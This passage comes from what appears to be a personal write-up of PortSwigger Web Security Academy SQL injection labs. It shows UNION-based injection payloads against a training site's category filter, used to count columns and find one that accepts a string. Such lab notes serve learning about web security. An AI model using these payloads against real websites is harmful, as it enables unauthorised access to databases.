 UI looked pretty much the same as in the previous lab, so it seemed it was a straight continuation, so i first tried the same thing.   
*Goal was to find the column that contains the string `1lnPyr`*

Query:   
```sql
web-security-academy.net/filter?category=Accessories'+UNION+SELECT+NULL,NULL,NULL--
```

Which worked, so next as the idea was to identify the column that is compatible with string.    

I tested it with:
```sql
web-security-academy.net/filter?category=Accessories'+UNION+SELECT+'1lnPyr',NULL,NULL--

web-security-academy.net/filter?category=Accessories'+UNION+SELECT+NULL,'1lnPyr',NULL--
```

And got it!

![](res/portSwigLab-10.png)

---
### e) SQL injection UNION attack, retrieving data from other tables.